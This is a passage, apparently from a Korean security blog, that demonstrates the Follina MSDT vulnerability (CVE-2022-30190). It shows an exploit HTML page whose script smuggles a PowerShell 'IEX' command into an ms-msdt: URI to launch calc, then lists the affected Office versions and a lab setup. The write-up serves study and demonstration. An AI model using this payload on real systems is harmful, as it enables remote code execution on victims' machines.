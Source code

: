         AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA*/
        window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
        </script>
        </body>
        </html>
        ```



**취약점에 영향 받는 버전**

- KB5014699 패치 이전 버전

- MS Office 2021 등 여러 버전

## 취약점 시연

### calc.exe

| Name     |       Enviroment       |          IP         |
|:--------:|:----------------------:|:-------------------:|
| Attacker |      Kali Linux        |   192.168.124.134   |
| Victim   | Windows 10 64bit 1903<br>MS Office 2021 |   192.168.124.132   |

* [CVE-2022-30190 PoC](https://github.com/JohnHammond/msdt-follina/tree/main?tab=readme-ov-file+)

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/8b45510c-b7b2-4aab-8236-da6e21daf25f">
</p>
